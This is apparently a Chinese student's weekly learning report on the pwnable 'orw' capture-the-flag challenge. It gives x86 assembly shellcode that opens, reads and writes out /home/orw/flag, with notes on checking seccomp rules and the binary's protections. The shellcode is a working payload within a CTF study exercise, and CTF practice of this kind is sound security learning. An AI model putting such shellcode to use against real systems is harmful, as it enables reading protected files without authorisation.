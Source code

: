 # 翟一鸣学习报告02
# 第五周报告

## pwnable_orw

上周陈师傅将了关于orw和or有关的知识和题目，所以我就在网上找了相似的题目练了一练，也正好把有关的知识巩固一下

### open_shellcode:

```汇编
xor ecx,ecx
xor edx,edx
mov eax,0x5    #调用号
push 0x00006761
push 0x6c662f77
push 0x726f2f65
push 0x6d6f682f
mov ebx,esp
int 0x80
```

/home/orw/flag 转换为 16 进制为 **`2f686f6d652f6f72772f666c6167`**

flag 转换为 16 进制为 **`67616c66`**

### read_shellcode:

```汇编
mov eax,0x3   #调用号
mov ecx,ebx
mov ebx,0x3
mov edx,0x40
int 0x80
```

### write_shellcode:

```汇编
mov eax,0x4   #调用号
mov ebx,0x1
mov edx,0x40
int 0x80
```

seccomp-tools可以查看系统调用，可以看到该题为orw型的题目

![image-20220325185207732](C:/Users/%E8%94%A1%E9%9B%A8%E5%AE%B9/AppData/Roaming/Typora/typora-user-images/image-20220325185207732.png)

32位，动态链接，Canary打开

![image-20220325185247886](C:/Users/%E8%94%A1%E9%9B%A8%E5%AE%B9/AppData/Roaming/Typora/typora-user-images/image-20220325185247886.png)
